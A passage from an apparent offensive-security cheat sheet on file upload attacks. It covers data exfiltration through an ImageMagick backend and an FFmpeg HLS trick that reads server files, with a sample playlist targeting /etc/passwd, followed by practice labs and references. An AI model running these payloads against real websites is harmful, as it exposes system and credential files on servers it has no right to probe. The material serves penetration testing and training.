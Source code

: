 * Trigger the exploit by uploading the file. The backend might use something like `convert pngout.png pngconverted.png`
* Download the converted picture and inspect its content with: `identify -verbose pngconverted.png`
* Convert the exfiltrated data: `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'`

More payloads in the folder `Picture ImageMagick/`.

### CVE - FFMpeg HLS

FFmpeg is an open source software used for processing audio and video formats. You can use a malicious HLS playlist inside an AVI video to read arbitrary files.

1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. Upload `file_read.avi` to some website that processes videofiles
3. On server side, done by the videoservice: `ffmpeg -i file_read.avi output.mp4`
4. Click "Play" in the videoservice.
5. If you are lucky, you'll the content of `<filename>` from the server.

The script creates an AVI that contains an HLS playlist inside GAB2. The playlist generated by this script looks like this:

```ps1
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```

More payloads in the folder `CVE FFmpeg HLS/`.

## Labs

* [PortSwigger - Labs on File Uploads](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)
* [Root Me - File upload - Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)
* [Root Me - File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)
* [Root Me - File upload - Null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Null-byte)
* [Root Me - File upload - ZIP](https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP)
* [Root Me - File upload - Polyglot](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot)

## References

* [A New Vector For “Dirty” Arbitrary File Write to RCE - Doyensec - Maxence Schmitt and Lorenzo Stella - 28 Feb 2023](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html)
* [Arbitrary File Upload Tricks In Java - pyn3rd - 2022-05-07](https://pyn3rd.github.io/2022/05/07/Arbitrary-File-Upload-Tricks-In-Java/)
* [Attacking Webservers Via .htaccess - Eldar Marcussen - May 17, 2011](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [BookFresh Tricky File Upload Bypass to RCE - Ahmed Aboul-Ela - November 29, 2014](http://web.archive.org/web/20141231210005/https://secgeek.net/bookfresh-vulnerability/)
* [Bulletproof Jpegs Generator - Damien Cauquil (@virtualabs) - April 9, 2012](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l)
* [Encoding Web Shells in PNG IDAT chunks - phil - 04-06-2012](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [File Upload - HackTricks - 20/7/2024](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [File Upload restrictions bypass - Haboob Team - July 24, 2018](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)